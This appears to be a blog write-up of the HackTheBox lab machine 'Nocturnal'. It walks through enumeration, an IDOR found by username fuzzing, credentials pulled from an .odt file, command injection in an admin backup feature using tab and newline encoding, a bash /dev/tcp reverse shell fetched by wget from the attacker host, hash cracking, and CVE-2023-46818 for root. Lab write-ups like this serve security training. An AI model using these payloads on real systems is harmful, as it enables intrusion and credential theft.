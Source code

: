 ```yaml
---
categories:
  - HackTheBox
image:
  path: /assets/posts/Nocturnal/preview.png
layout: post
stags:
title: Nocturnal (Easy)
---
```


**Nocturnal** is an Easy-rated Linux machine from HackTheBox that requires combining web exploitation with credential reuse to escalate privileges. Initial access is obtained through an **IDOR vulnerability** in the file download functionality, which exposes an `.odt` document containing valid credentials. With these, we gain access to the admin panel, where a poorly sanitized backup feature allows **command injection** and leads to a foothold on the system. Enumeration of the local database reveals password reuse for a user .Finally, an internal service on port 8080 is discovered, running a vulnerable application affected by **CVE-2023-46818**, which is exploited to achieve root access and complete the box.
Let's dive in.

---

## Enumeration

```bash
`nmap -sC -sV -oN nmap.txt 10.10.11.64`
```
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-20 10:46 EEST
Nmap scan report for 10.10.11.64
Host is up (0.094s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.35 seconds
```
We have only 2 ports open ssh and nginx - we got redirected to http://nocturnal.htb/ so let's add it to the hosts file
```bash
10.10.11.64 nocturnal.htb
```

## Initial Foothold
### User Registration & File Upload
The site allows user registration. After creating an account, we can upload files with limited extensions:
```bash
pdf, doc, docx, xls, xlsx, odt
```

![](/assets/posts/Nocturnal/Nocturnal,-1.png)

so I will upload a random pdf and see what we get 

![](/assets/posts/Nocturnal/Nocturnal,-2.png)
just the in our profile let's see what does clicking on the pdf get's us 

![](/assets/posts/Nocturnal/Nocturnal,-3.png)
So there are 2 parameters username and the file we want to download which will return the contents of the file that we have let's see if we could make the request with just the username 

![](/assets/posts/Nocturnal/Nocturnal,-4.png)
That didn't work what about using a pdf that does not exist
![](/assets/posts/Nocturnal/Nocturnal,-5.png)
why got a list of the pdf that I have that got me thinking what if there is an IDOR and we could see other people uploaded files so let's fuzz usernames and see what we get 

I will use ffuf to fuzz for username and the wordlist xato-net-10-miliion-usernames
```bash
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=anything.pdf' -H 'Cookie: PHPSESSID=iau9sjst5sf05fel3i63ilc071' -w /opt/SecLists-master/Usernames/xato-net-10-million-usernames.txt -fs 2985
```

![](/assets/posts/Nocturnal/Nocturnal,-6.png)
and we got 3 potential users

![](/assets/posts/Nocturnal/Nocturnal,-7.png)
Looking at Amanda we could find that she has a file called privacy.odt let's try and download this file and see what we got

I will unzip the odt to see what's inside  
```bash
unzip privacy.odt 
Archive:  privacy.odt
 extracting: mimetype                
   creating: Configurations2/accelerator/
   creating: Configurations2/images/Bitmaps/
   creating: Configurations2/toolpanel/
   creating: Configurations2/floater/
   creating: Configurations2/statusbar/
   creating: Configurations2/toolbar/
   creating: Configurations2/progressbar/
   creating: Configurations2/popupmenu/
   creating: Configurations2/menubar/
  inflating: styles.xml              
  inflating: manifest.rdf            
  inflating: content.xml             
  inflating: meta.xml                
  inflating: settings.xml            
 extracting: Thumbnails/thumbnail.png  
  inflating: META-INF/manifest.xml   
```

![](/assets/posts/Nocturnal/Nocturnal,-8.png)

we could find this image which is the thumbnail we could read what the IT team is saying but the password isn't very visible luckly  the password is inside content.xml which is 
***arHkG7HAI68X8s1J***

## Admin Access
now we have amanda login credentials 

![](/assets/posts/Nocturnal/Nocturnal,-9.png)

She has access to the admin panel we also could see the source code of the site 

![](/assets/posts/Nocturnal/Nocturnal,-11.png)
in admin.php there is this backup file functionality and if we look closely we could see that it might be vulnerable to command injection 
![](/assets/posts/Nocturnal/Nocturnal,-12.png)
we just need to bypass this cleanEntry function or just CRLF to execute commands on a new line so let's see what could we do 

space is a blacklisted charecter so I used TAB instead, with the encoding of %09
tried this payload to test 
```bash
ttest%0aping%09-c%094%0910.10.16.8%09%0a 
```
unencoded is just
```bash
ttest
ping	-c	4	10.10.16.8	
```
![](/assets/posts/Nocturnal/Nocturnal,-13.png)
so let's write a reverse shell

I will download the shell and then execute it since it has blacklisted characters 
```bash
# In a file called shell
bash -i >& /dev/tcp/IP/PORT 0>&1

# To download the shell we will send Chanege IP and Port
password=%0abash%09-c%09"wget%09IP:PORT/shell"%0a&backup=&backup=
# and now we will execute the shell
password=%0Abash%09-c%09"bash%09shell"%0A&backup=
```

![](/assets/posts/Nocturnal/Nocturnal,-14.png)
the database in a folder called nocturnal_database after dumping the database we could find the passwords of the users on the site let's try and crack tobias password since he is on the box

```bash
55c82b1ccd55ab219b3b109b07d5061d:slowmotionapocalypse
```

we got it as  ***slowmotionapocalypse***
![](/assets/posts/Nocturnal/Nocturnal,-15.png)

## Root
![](/assets/posts/Nocturnal/Nocturnal,-16.png)
There is a service running on port 8080 internally let's forward the port and see what's in there
```bash
~C
-L 8081:localhost:8080
```

we could login with admin:slowmotionapocalypse
### CVE-2023-46818
This version is vulnerable to php code injection 
![](/assets/posts/Nocturnal/Nocturnal,-17.png)
and that's it